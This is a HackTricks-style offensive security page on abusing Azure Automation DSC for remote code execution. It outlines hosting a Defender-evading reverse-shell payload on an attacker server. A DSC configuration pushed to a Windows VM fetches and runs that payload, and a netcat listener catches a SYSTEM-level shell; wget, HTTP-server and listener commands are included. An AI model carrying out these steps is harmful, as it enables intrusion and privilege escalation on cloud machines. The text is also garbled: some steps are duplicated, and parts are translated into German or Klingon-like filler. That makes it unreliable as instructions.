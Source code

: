 # Az - State Configuration RCE

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**Check the complete post in: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview
The process involves setting up a remote server infrastructure to host a modified Nishang `Invoke-PowerShellTcp.ps1` payload, named `RevPS.ps1`, designed to bypass Windows Defender. The payload is served from a Kali Linux machine with IP `40.84.7.74` using a simple Python HTTP server. The operation is executed through several steps:

#### Step 1 — Create Files
- **Files Required:** Two PowerShell scripts are needed:
1. `reverse_shell_config.ps1`: A Desired State Configuration (DSC) file that fetches and executes the payload. It is obtainable from [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: A script to publish the configuration to the VM, available at [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Customization:** Variables and parameters in these files must be tailored to the user's specific environment, including resource names, file paths, and server/payload identifiers.

#### Step 2 — Zip Configuration File
- The `reverse_shell_config.ps1` is compressed into a `.zip` file, making it ready for transfer to the Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Set Storage Context & Upload
- The zipped configuration file is uploaded to a predefined Azure Storage container, azure-pentest, using Azure's Set-AzStorageBlobContent cmdlet.

#### Step 3 — Qap Storage Context & Upload
- Qap zipped configuration file is uploaded to a predefined Azure Storage container, azure-pentest, using Azure's Set-AzStorageBlobContent cmdlet.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box
- The Kali server downloads the RevPS.ps1 payload from a GitHub repository.

#### Step 4 — Kali Box vorbereiten
- Der Kali-Server lädt das RevPS.ps1-Payload von einem GitHub-Repository herunter.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- **Step 5 — Publish Configuration File**
  - **Configuration File** jup, vItlhutlh. **Windows VM** je 'ej **port** vItlhutlh **reverse shell** script deployed **specified location** Windows VM.
  
- **Step 6 — Host Payload and Setup Listener**
  - **Python SimpleHTTPServer** jup, **payload** host **Netcat listener** vItlhutlh **incoming connections** capture.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- **Qapla'!** The scheduled task executes the payload, achieving SYSTEM-level privileges.

#### **QIn**

The successful execution of this process opens numerous possibilities for further actions, such as credential dumping or expanding the attack to multiple VMs. The guide encourages continued learning and creativity in the realm of Azure Automation DSC.

<details>

<summary><strong>Qapla'!**</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
